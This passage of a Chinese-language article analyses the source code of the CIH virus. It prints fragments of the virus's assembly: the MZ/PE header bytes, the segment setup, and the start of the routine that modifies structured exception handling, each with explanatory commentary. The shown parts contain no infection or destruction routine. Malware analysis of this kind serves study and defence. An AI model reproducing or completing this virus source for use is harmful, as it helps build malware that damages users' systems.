 源码第一部分是文件头:

```
OriginalAppEXE SEGMENT

FileHeader:
db 04dh, 05ah, 090h, 000h, 003h, 000h, 000h, 000h
db 004h, 000h, 000h, 000h, 0ffh, 0ffh, 000h, 000h
db 0b8h, 000h, 000h, 000h, 000h, 000h, 000h, 000h
.....
db 000h, 000h, 000h, 000h, 000h, 000h, 000h, 000h
db 0c3h, 000h, 000h, 000h, 000h, 000h, 000h, 000h
dd 00000000h, VirusSize

OriginalAppEXE ENDS
```

就是PE文件的MZ文件头。

这段文件头的主要目的是为了符合PE(Portable Execute, 可移植执行文件格式)文件格式.我们常见的EXE，DLL，OCX等文件都必须符合微软规定的PE格式，这样Windows操作系统才能识别并执行，这里我们跳过不做分析，感兴趣的读者可以对照PE文件头和源码自行分析。网络上也有很多关于PE格式分析的文章。

另外，请各位读者注意，因为CIH的故事已经过去很久了，CIH所曾经使用的有些技术已经过时，但却能在今天找到借鉴，有些技术则没有过时，可谓生命力顽强，这一点我会在文章中一一指出，希望能供大家参考借鉴。

```
VirusGame SEGMENT

ASSUME CS:VirusGame, DS:VirusGame, SS:VirusGame
ASSUME ES:VirusGame, FS:VirusGame, GS:VirusGame

; *********************************************************
; * Ring3 Virus Game Initial Program *
; *********************************************************
```

病毒真正开始运行是从VirusGame段开始的。作者完成这个病毒时是23岁，还是少年人的心性。

## 修改SEH

```
MyVirusStart:
push ebp

; *************************************
; * Let's Modify Structured Exception *
; * Handing, Prevent Exception Error *
; * Occurrence, Especially in NT. *
; *************************************

lea eax, [esp-04h*2]

xor ebx, ebx
xchg eax, fs:[ebx]

call @0
@0:
pop ebx

lea ecx, StopToRunVirusCode-@0[ebx]
push ecx

push eax
```


[^1st]: <https://www.geekpark.net/news/212936>
[^2nd]: <https://www.anquanke.com/post/id/164959>